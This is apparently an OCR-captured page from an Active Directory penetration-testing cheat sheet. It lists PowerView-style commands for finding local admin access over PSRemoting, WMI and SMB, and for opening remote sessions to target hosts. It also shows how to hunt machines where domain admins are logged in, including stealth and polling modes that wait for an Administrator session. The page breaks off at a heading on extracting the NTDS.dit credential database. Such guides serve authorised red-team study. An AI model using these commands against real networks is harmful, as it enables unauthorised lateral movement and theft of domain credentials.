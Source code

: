 ```
Find-LocalAdminAccess -Verbose
```


*   Find Administrative access

```
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
# No Stateful
Enter-PSSession -ComputerName targetcomputer.target.domain.local
# Stateful
$sess = New-Pssession -ComputerName targetcomputer.target.domain.local
Enter-Pssession -session $sess
```


*   If RPC and SMB are blocked check with WMI

```
. .\Find-WMILocalAdminAccess.ps1
```


*   Find local admins on all machines of the domain (Get-NetComputer+Get- NetLocalGroup)

```
Invoke-EnumerateLocalAdmin -Verbose
```


*   Find computers where a domain admin (or specified user/group) has sessions

```
Invoke-UserHunter
Invoke-UserHunter -GroupName "RDPUsers"
```


*   Confirm admin access

```
Invoke-UserHunter -CheckAccess
```


*   Find computers where a domain admin is logged-in ( Get-NetSession / Get-NetLoggedon )

```
Invoke-UserHunter -Stealth
```


*   WAIT FOR INCOMING SESSINON

```
Invoke-UserHunter -ComputerName targetserver -Poll 100 -UserName Administrator -Delay 5 -Verbose
```


5\. Account Hunting & Data Exfiltration
---------------------------------------

### Obtaining NTDS.dit Using ntdsutil

